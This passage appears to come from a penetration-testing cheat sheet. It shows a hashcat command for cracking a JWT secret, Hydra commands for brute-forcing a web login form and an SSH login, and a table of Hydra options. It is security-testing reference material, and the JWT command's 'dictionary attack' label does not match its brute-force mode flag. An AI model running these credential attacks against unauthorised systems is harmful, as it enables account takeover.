 ### Cracking the JWT

Dictionary attack:

```fundamental
hashcat -m 16500 -a 3 --session=cracking --force --status -O eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiSm9obiBEb2UifQ.xuEv8qrfXu424LZk8bVgr9MQJUIrp1rHcPyZw_KSsds
```

You can also check the JWT cracking tool from my other [project](https://github.com/ivan-sincek/jwt-bf).

### Hydra

Crack an HTTP POST web form login:

```fundamental
hydra -o hydra_results.txt -l admin -P rockyou.txt somesite.com http-post-form '/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed!'
```

When cracking a web form login, you must specify `Login=Login:<expected_message>` to distinguish between a successful login and a failed one. Each expected message can vary between web forms.

Keep in mind that the `username` and `password` request parameters can be named differently.

Crack a Secure Shell login:

```fundamental
hydra -o hydra_results.txt -L users.txt -P rockyou.txt 192.168.8.5 ssh
```

You can find a bunch of wordlists in [SecLists](#wordlists).

| Option | Description |
| --- | --- |
| -R | Restore a previous aborted/crashed session |
| -S | Perform an SSL connect |
| -O | Use old SSL v2 and v3 |
| -s | If the service is on a different default port, define it here |
| -l | Login with a login name |
| -L | Load several logins from a file |
| -p | Login with a password |
| -P | Load several passwords from a file |
| -x | Password brute force generation (MIN:MAX:CHARSET), type "-x -h" to get help |
| -y | Disable use of symbols in bruteforce |
| -e | Try "n" null password, "s" login as pass and/or "r" reversed login |
| -o | Write found login/password pairs to a file instead of stdout |
| -f/-F | Exit when a login/pass pair is found (-f per host, -F global) |
| -M | List of servers to attack, one entry per line, ':' to specify port |
